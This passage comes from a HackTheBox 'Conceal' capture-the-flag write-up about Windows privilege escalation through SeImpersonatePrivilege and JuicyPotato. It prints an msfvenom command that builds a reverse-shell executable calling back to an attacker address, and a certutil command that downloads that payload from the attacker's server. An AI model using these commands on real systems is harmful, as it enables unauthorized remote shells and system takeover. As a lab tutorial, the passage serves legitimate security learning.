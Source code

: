 # Privilege Escalation

Checking our privileges we can see that we have the SeImpersonatePrivilege:

![token](/assets/images/hackthebox/conceal/token.png)

This privilege can be easily exploited with [JuicyPotato](https://github.com/ohpe/juicy-potato) . We just need to check which Windows version is running to specify a correct [CLSID](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md) 

![sysinfo](/assets/images/hackthebox/conceal/sysinfo.png)

By running the systeminfo command, we can see it is running Windows 10 Enterprise. Let's create a malicous executable with **msfvenom** as a payload for JuicyPotato

```bash
 msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.188 LPORT=4444 -a x64 --platform Windows -f exe -o shell.exe
```

The executable can be uploaded to the victim machine by hosting a simple http server on your attacking machine and using certutil to download it.

```powershell
certutil -urlcache -split -f http://10.10.14.188/shell.exe shell.exe
```
